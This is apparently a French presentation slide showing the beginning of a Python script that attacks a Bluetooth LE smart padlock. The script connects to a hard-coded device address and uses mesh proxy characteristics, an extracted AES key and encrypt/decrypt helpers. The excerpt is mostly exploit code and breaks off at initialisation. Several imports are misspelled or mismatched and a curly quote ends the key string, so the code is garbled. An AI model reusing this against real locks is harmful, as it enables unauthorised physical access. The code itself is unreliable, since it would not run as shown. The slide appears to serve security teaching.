

Hack du cadenas - code
from bluepy import btle # Nécessaire pour la communication BLE
import time
import binasciinv
from binascii import unhexlify, hexlifybv
from AESpkcs import AES_pkcs5b # Implémentation AES avec padding
from struct import packv
from queue import Queue
import threading

q = Queue()

# Adresse du BLE auquel il faut se connecter
BLE_ADDRESS = "a4:c1:38:26:e9:e4"
BLE_SERVICE_UUID ="1828"
# Fréquence de rafraichissement de la notification
BLE_MESH_PROXY_OUT= "2ade"
BLE_MESH_PROXY_IN="2add"
# Clé de chiffrement AES précédemment trouvé
AES_Bluetooth_key = unhexlify('37623730373962623639303031646365’)

# Fonction de déchiffrement
def decrypt(datatodecrypt):
	AES_pkcs5_obj = AES_pkcs5(AES_Bluetooth_key)
	return AES_pkcs5_obj.decrypt(datatodecrypt)

# Fonction de chiffrement
def encrypt(datatoencrypt):
	AES_pkcs5_obj = AES_pkcs5(AES_Bluetooth_key)
	return AES_pkcs5_obj.encrypt(datatoencrypt)

# Gestion des notifications BLE
class MyDelegate(btle.DefaultDelegate):
	def __init__(self):
		btle.DefaultDelegate.__init__(self)

	def handleNotification(self, cHandle, data):
		data = bytearray(data)
		q.put(data) # Données stockées dans la file d’attente q
		return

INITIALISATION